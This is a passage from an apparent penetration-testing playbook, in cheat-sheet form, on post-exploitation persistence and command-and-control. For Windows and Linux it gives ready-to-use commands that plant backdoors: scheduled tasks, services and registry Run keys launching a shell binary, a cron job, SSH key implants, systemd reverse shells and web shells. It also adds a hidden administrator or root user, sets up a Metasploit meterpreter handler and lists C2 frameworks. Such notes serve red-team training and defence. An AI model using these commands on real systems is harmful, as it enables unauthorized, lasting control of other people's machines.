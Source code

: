 ## Persistence
### Common Techniques
- **Windows:
    - **MSF:** Use the `persistence` module.
    - **Scheduled Tasks:** `schtasks /create /tn "WindowsUpdate" /tr "C:\shell.exe" /sc onstart /ru SYSTEM
    - **Service:** `sc create "TempService" binpath= "C:\shell.exe" start= auto && sc start TempService`
    - **Registry:** `reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v "Backdoor" /t REG_SZ /d "C:\shell.exe"
- **Linux:
    - **Cron Jobs:** `echo "* * * * * /tmp/shell.sh" | crontab -
    - **SSH Keys:** Append your public key to `/home/<user>/.ssh/authorized_keys` or `/root/.ssh/authorized_keys`.
    - **Systemd Service:** Create a new service file in `/etc/systemd/system/` with your reverse shell command.
- **Cross-Platform:
    - **Web Shell:** Upload a persistent web shell (e.g., ASPX, PHP) to a writable directory.
    - **Add a User:** `net user hacker Password123! /add && net localgroup administrators hacker /add` (Windows) or `useradd -ou 0 -g 0 hacker` (Linux). _Easy to detect._
### Command and Control
> Frameworks that manage implants, handle encryption, and provide a centralized interface for operating on compromised hosts.
- **Metasploit (`msfconsole`):** The classic. Use `handler -p windows/x64/meterpreter/reverse_http -H <ip> -P <port>` as a multi/handler.
- **Covenant:** .NET-based C2 focused on AD environments. Highly customizable.
- **Mythic:** Modern, containerized framework with JSON-based messaging. Supports many agents (Apollo, Athena).
- **Havoc:** A modern, post-exploitation command and control framework, written in C++, with support for sleep obfuscation.
- **Sliver:** Written in Go, lightweight and cross-platform. A popular alternative to Cobalt Strike.

---
# Resources
1. Azeria Labs: APTs https://azeria-labs.com/advanced-persistent-threat/
2. Active directory pentesting: cheatsheet and beginner guide: https://www.hackthebox.com/blog/active-directory-penetration-testing-cheatsheet-and-guide
#recon #playbook #exploitation #initial-foothold #post-exploitation #enumeration #persistence #lateral-movement #privilege-escalation #uncredentialed-access #credentialed-access 